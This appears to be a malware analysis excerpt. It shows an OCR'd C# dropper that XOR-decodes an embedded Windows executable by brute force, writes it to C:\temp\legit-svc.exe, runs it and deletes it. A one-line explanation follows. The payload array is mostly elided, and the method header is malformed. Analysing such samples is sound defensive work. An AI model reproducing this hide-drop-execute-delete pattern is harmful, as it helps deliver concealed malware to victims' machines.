 ```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Threading;

private static void Main(string[] args) {}
    int[] array = new int[6656] {
        77, 90, 144, 0, 3, 0, 0, 0, 4, 0,
        0, 0, 255, 255, 0, 0, 184, 0, 0, 0,
        0, 0, 0, 0, 64, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        128, 0, 0, 0, 14, 31, 186, 14, 0, 180,
        9, 205, 33, 184, 1, 76, 205, 33, 84, 104,
        105, 115, 32, 112, 114, 111, 103, 114, 97, 109,

        (...)

        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0, 0
    };
    for (int i = 0; i <= 255; i++) {
        for (int j = 0; j <= 255; j++) {
            string text = "";
            int num = 0;
            for (num = 0; num <= array.Length - 1; num++) {
                int num2 = array[num] ^ j;
                char c = (char)num2;
                text += c;
            }
            if (text.Contains("!This program cannot be run in DOS mode.")) {
                Console.WriteLine(num);
                string text2 = "C:\\temp\\legit-svc.exe";
                BinaryWriter binaryWriter = new BinaryWriter(new FileStream(text2, FileMode.Create));
                binaryWriter.Write(text);
                binaryWriter.Close();
                Process.Start(text2);
                File.Delete(text2);
                Thread.Sleep(50000);
                Environment.Exit(0);
            }
        }
    }
}
```

It tries to decrypt the 6656-byte array with all possible 1-byte XOR keys. If the output contains
a signature, it is written to `C:\temp\legit-svc.exe`, executed, deleted and the program quits.
